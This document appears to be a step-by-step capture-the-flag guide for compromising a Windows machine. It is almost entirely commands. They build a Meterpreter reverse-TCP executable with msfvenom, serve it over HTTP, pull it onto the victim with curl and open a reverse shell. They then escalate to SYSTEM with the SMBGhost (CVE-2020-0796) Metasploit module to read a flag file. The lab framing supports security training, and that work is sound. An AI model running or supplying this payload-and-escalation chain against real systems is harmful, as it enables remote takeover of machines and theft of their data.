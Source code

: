 # Guide

Before you move to the exploit, make sure you allow the ports 8080 and 443 in the firewall of your attacker machine.

1 - On your */home/[user]/* of your attacker machine, do :

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[HOST_IP] LPORT=443 -a x64 --platform Windows -f exe -o meter64.exe
```

2 - Launch a HTTP server on your attacker machine :

```
python3 -m http.server 8080
```

3 - Curl the file *meter64.exe* on your victim machine :

```
curl http://[HOST_IP]:8080/meter64.exe --output meter64.exe
```

4 - On your attacker machine, do :

```
msfconsole -q -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST [HOST_IP];set LPORT 443;exploit;"
```

5 - On your victim machine, execute *meter64.exe* to open a reverse shell on your attacker machine :

```
meter64.exe
```

6 - On your attacker machine, in the reverse shell, do :

```
getuid
```

You can see you are the default user you are connected to on the victim machine.

7 - On your attacker machine, in the reverse shell, do :

```
background
```

It will drop out the meterpreter session.

8 - On your attacker machine, do :

```
search exploit/windows/local/cve
```

It will display some exploits.

```
use exploit/windows/local/cve_2020_0796_smbghost
```

This is the cve that we want to exploit.

```
set SESSION 1
set LHOST [HOST_IP]
set LPORT 8080
```

It will set options.

To verify your options :

```
show options
```

To exploit :

```
exploit
```

It will open a reverse shell. Then, do :

```
getuid
```

You can see you are logged on as the system !

Now, you can navigate to the admin documents to have the flag :

```
cd ..
cd ..
cd Users
cd admin
cd Documents
cat flag2.txt
```

Congratulations !
